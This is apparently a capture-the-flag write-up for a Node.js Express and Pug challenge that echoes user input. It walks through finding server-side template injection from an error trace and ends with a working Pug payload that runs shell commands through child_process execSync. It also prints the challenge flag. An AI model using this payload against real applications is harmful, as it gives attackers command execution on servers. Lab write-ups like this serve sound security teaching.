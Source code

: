 # Army10

>
> ### user: PWNX{030bfc71138bf2fa58413b66bd3425d4}
> 

## Description

A simple web application that echoes anything the user writes.

## Technical description

The target is a NodeJS [Express](https://expressjs.com/) application which is using the [Pug template Engine](https://pugjs.org/api/getting-started.html). The application is vulnerable to Server Side Template Injection ([SSTI](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection)). The attacker has to find the correct exploit to obtain the flag. 

## Writeup

The challenge only exposes the port `3000/tcp` which presents a webserver with a form that echoes anything the user writes. Trying a lot of combination of characters, the application crashes giving in the HTTP response the following error

```javascript

Error: Pug:1:10
  > 1| <p>#{</p>
----------------^

End of line was reached with no closing bracket for interpolation.
    at makeError (/var/www/html/node_modules/pug-error/index.js:34:13)
    at Lexer.error (/var/www/html/node_modules/pug-lexer/index.js:62:15)
    at Lexer.addText (/var/www/html/node_modules/pug-lexer/index.js:614:16)
    at Lexer.textHtml (/var/www/html/node_modules/pug-lexer/index.js:661:12)
    at Lexer.callLexerFunction (/var/www/html/node_modules/pug-lexer/index.js:1647:23)
    at Lexer.advance (/var/www/html/node_modules/pug-lexer/index.js:1690:12)
    at Lexer.callLexerFunction (/var/www/html/node_modules/pug-lexer/index.js:1647:23)
    at Lexer.getTokens (/var/www/html/node_modules/pug-lexer/index.js:1706:12)
    at lex (/var/www/html/node_modules/pug-lexer/index.js:12:42)
    at Object.lex (/var/www/html/node_modules/pug/lib/index.js:104:9)

```

Now the attacker knows what he is against at. The NodeJS Pug Template Engine.
Doing a lot of researches an attacker discovers that this template engine can be affected to SSTI vulnerabilities, so the attacker can use the following exploit to read the flag and complete the challenge

```javascript
#{function(){localLoad=global.process.mainModule.constructor._load;return localLoad("child_process").execSync('cat /opt/flag.txt')}()}
```

